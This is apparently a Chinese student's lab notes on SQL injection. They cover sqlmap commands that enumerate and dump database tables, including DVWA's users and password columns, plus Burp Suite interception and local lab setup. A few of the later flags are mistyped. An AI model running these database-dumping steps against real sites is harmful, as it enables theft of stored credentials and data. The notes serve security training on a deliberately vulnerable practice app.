






## 一、SQL注入漏洞
1，SQL语言：数据库操作语言（增删改查）
数据库存储的是网站的相关信息
数据库信息泄露：拖库--把网站的数据库拖走了
2，SQL注入漏洞的利用方式
--手工注入

--工具注入--SQLMAP
3，SQL工具注入
## 二、工具介绍
### 1，SQLMAP使用
（1）安装**python**,**sqlmap。在sqlmap.py打开cmd，进行操作**
（2）SQLMAP利用方式

注意：
| 网址-u |
|--------|
| 文件-r |
查看漏洞
| E:\安全工具\sqlmap1.4.3-11\sqlmap\>python sqlmap.py -u "网址" |
|---------------------------------------------------------------|
i-先去拿这个网站的数据库
| E:\安全工具\sqlmap1.4.3-11\sqlmap\>python sqlmap.py -u "网址" **--current-db** |
|--------------------------------------------------------------------------------|
Ii-再拿取这个网站数据库中的数据表
| E:\安全工具\sqlmap1.4.3-11\sqlmap\>python sqlmap.py -u "网址" **-D 数据库名 --tables** |
|----------------------------------------------------------------------------------------|
Iii-然后再获取这张数据表中的数据列
| E:\安全工具\sqlmap1.4.3-11\sqlmap\>python sqlmap.py -u "网址" **-D 数据库名 -T 表名 --columns** |
|-------------------------------------------------------------------------------------------------|
Iv-拿取数据
| E:\安全工具\sqlmap1.4.3-11\sqlmap\>python sqlmap.py -u "网址" **-D 数据库名 -T 表名 -C 列名（可多个）--dump** |
|---------------------------------------------------------------------------------------------------------------|
### 2，抓包BurpSuite
安全工具--抓包--BurpSuite
代理软件 网站代理
四大功能--拦截、抓包、改包、重放
## 三、准备工作
### 1，查看ip地址
鼠标右键单击开始菜单选择运行，在运行窗口中输入cmd点击确定，接着在输入ipconfig按下回车键，之后我们就可以看到ip地址了。

### 2，修改网络端口

3，r+windows drivers 打开host ，将127.0.0.1 修改为ip地址
4，把安全等级设置为low
## 三、SQL工具注入(low)
1，打开BurpSuite后进行SQL Injection

<table>
<colgroup>
<col style="width: 100%" />
</colgroup>
<thead>
<tr class="header">
<th>
备注：之前的错误操作

访问http://127.0.0.1/DVWA-master/login.php，得到

问了助教后得知：修改了“hosts”所以不能使用127.0.0.1，得使用本机的IP地址。
</th>
</tr>
</thead>
<tbody>
</tbody>
</table>
2, save item 导出到桌面，命名7.txt
安装python环境，下载sqlmap包，按照如下命令执行查看漏洞
如果是文件，则“-r”；如果是网站，则“-u”

| --current-db                             |
|------------------------------------------|
| -D dvwa -tables                          |
| -D dvwa -T users -columns                |
| -D dvwa -T users C users, password -dump |

